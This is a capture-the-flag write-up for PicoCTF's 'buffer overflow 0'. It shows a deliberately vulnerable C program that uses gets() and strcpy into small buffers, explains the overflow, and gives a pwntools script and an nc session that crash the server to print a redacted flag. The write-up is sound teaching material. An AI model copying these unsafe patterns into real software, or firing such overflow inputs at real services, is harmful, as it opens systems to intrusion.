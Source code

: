 # PicoCTF - buffer overflow 0

## Challenge Overview
**Title:** buffer overflow 0  
**Category:** Binary Exploitation  
**Difficulty:** Medium  
**Files Provided:** vuln.c, vuln

## Description
Let's start off simple, can you overflow the correct buffer? The program is available here. You can view source here. Connect using: nc saturn.picoctf.net 55750

## Source Code
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <signal.h>

#define FLAGSIZE_MAX 64

char flag[FLAGSIZE_MAX];

void sigsegv_handler(int sig) {
  printf("%s\n", flag);
  fflush(stdout);
  exit(1);
}

void vuln(char *input){
  char buf2[16];
  strcpy(buf2, input);
}

int main(int argc, char **argv){
  
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }
  
  fgets(flag,FLAGSIZE_MAX,f);
  signal(SIGSEGV, sigsegv_handler); // Set up signal handler
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);


  printf("Input: ");
  fflush(stdout);
  char buf1[100];
  gets(buf1); 
  vuln(buf1);
  printf("The program will exit now\n");
  return 0;
}

```

## Analysis
We see that the program defines a **custom handler** for when a **SEGFAULT** happens.  
```c
void sigsegv_handler(int sig) {
  printf("%s\n", flag);
  fflush(stdout);
  exit(1);
}
```
**Buffer overflows** cause **SEGFAULT**, so we need to overflow a buffer.

The program stores our input into a **buffer** of size **100**.  
But, it uses `gets()` which **doesn't protect** our buffer from an **overflow** meaning it **leads** to a **SEGFAULT**.  
So we simply need to **enter** an input **larger** than **100** characters.  

**NOTE:** Our input is copied in a smaller buffer of size 16 inside `vuln`. It uses `strcpy` which is also unsafe and will allow an overflow to happen.

To automate the process, I have written a Python script using `pwntools`.
### Python Script
```python
from pwn import *

# Connect to the remote server
host = 'saturn.picoctf.net'
port = 53046
conn = remote(host, port)

print(conn.recv())
conn.sendline(b'A'*101)

# Receive the server's response
response = conn.recvline()
print(response)

# Close the connection
conn.close()
```
```
$ python script.py
[+] Opening connection to saturn.picoctf.net on port 53046: Done
b'Input: '
b'picoCTF{____REDACTED____}\n'
[*] Closed connection to saturn.picoctf.net port 53046
```
## Solution

- Enter an input larger than 100

### Execution Example:
```
$ nc saturn.picoctf.net 53046
Input: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
picoCTF{____REDACTED____}
```